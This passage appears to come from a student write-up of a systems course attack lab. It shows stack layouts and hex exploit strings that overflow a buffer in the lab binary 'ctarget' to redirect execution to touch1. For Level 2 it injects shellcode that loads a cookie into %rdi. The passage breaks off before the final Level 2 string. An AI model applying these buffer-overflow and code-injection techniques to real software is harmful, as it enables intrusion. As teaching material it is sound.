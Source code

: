 ```
0x5561dca0 0x00000000004017c0 /* return address of touch1 */
0x5561dc98 0x0000000000000000 /* ........padding..........*/
0x5561dc90 0x0000000000000000 /* ........padding..........*/
0x5561dc88 0x0000000000000000 /* ........padding..........*/
0x5561dc80 0x0000000000000000 /* ........padding..........*/
0x5561dc78 0x0000000000000000 /* ........padding..........*/
```

Also note that X86 use little endian byte ordering. The string exploit string is

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

-----------------------------------------------
# Level 2:

Level 2 requires us to redirect `getbuf()` to return to `touch2()` and set the input argument for `touch2()` to be cookie, which is 0x59b997fa. What it means is that we need to inject code into the stack and set the `%edi` register to be `0x59b997fa`. The executable `ctarget` is vulnerable to buffer overflow attack because its stack is executable. So we can use our exploit string to layout code on the stack and redirect the program to execute code we put on the stack. The code we need to inject is:

```
movq 0x59b997fa, %rdi
retq
```

We can use gcc and objdump to assemble the code the and disassemble it to get the binary encoding of the assembly code. It turns out to be

```
48 c7 c7 fa 97 b9 59 /* mov $0x59b997fa, %rdi */
c3                   /* retq */
```

The layout of the stack should be

```
0x5561dca8 0x00000000004017ec /* return address of touch2 */
0x5561dca0 0x000000005561dc78 /* address of injected code */
0x5561dc98 0x0000000000000000 /* ........padding......... */
0x5561dc90 0x0000000000000000 /* ........padding......... */
0x5561dc88 0x0000000000000000 /* ........padding......... */
0x5561dc80 0x0000000000000000 /* ........code............ */
0x5561dc78 0xc359b997fac7c748 /* ........code............ */
```

So the exploit string should be
